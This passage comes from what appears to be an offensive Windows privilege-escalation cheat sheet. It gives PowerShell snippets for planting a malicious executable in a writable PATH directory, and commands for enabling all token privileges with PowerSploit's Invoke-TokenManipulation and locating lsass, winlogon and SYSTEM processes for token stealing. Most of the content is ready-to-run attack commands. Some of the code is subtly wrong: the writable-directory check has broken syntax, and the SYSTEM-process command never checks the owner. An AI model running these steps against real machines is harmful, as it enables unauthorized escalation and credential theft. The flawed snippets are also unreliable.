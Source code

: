 #### Exploit Writable Directory
- Exploit Writable Directory: Add a malicious executable to a writable directory in the PATH.
	```powershell
	$writablePath = "C:\Path\To\WritableDirectory"
	$maliciousFile = "C:\Path\To\malicious.exe"
	
	# Ensure the destination directory is writable before copying
	if (Test-Path $writablePath -and (Get-Acl $writablePath).Access | Where-Object { 
	        $_.FileSystemRights -match 'Write' -and $_.AccessControlType -eq 'Allow'
	    }) {
	    Copy-Item -Path $maliciousFile -Destination $writablePath
	    Write-Host "Malicious file copied to $writablePath"
	} else {
	    Write-Host "The directory $writablePath is not writable by the current user."
	}
	```

# Token Manipulation

#### List All User Tokens
To enumerate all security tokens associated with your current session, including privileges:
```powershell
whoami /all
```
This will display all the privileges and groups associated with the current token.

#### Enable All Privileges for the Current User
You can attempt to enable all privileges for your current token using PowerSploit’s `Invoke-TokenManipulation`:
```powershell
Invoke-TokenManipulation -EnableAllPrivileges
```
	*Note: You need PowerSploit installed for this to work.*

#### Enumerate Privileged Tokens
You can check for privileged processes like `lsass.exe` (Local Security Authority Subsystem Service) and see which user owns the token:
```powershell
Get-WmiObject -Query "Select * from Win32_Process where Name='lsass.exe'" | ForEach-Object { $_.GetOwner().User }
```

#### List Process Handles and Tokens
To enumerate process IDs and handles (useful for token stealing or manipulation):
```powershell
Get-WmiObject -Class Win32_Process | Select-Object ProcessId, Name, Handle
```

#### Identify Processes Running as SYSTEM
To identify processes that are running under the `NT AUTHORITY\SYSTEM` user (useful for token impersonation):
```powershell
Get-Process | Where-Object { $_.Name -eq "lsass" -or $_.Name -eq "winlogon" -or $_.Name -eq "services" } | ForEach-Object { $_.Name, $_.Id, $_.Handles }
```
You can replace `"lsass"` with other potential processes like `winlogon` or `services`.
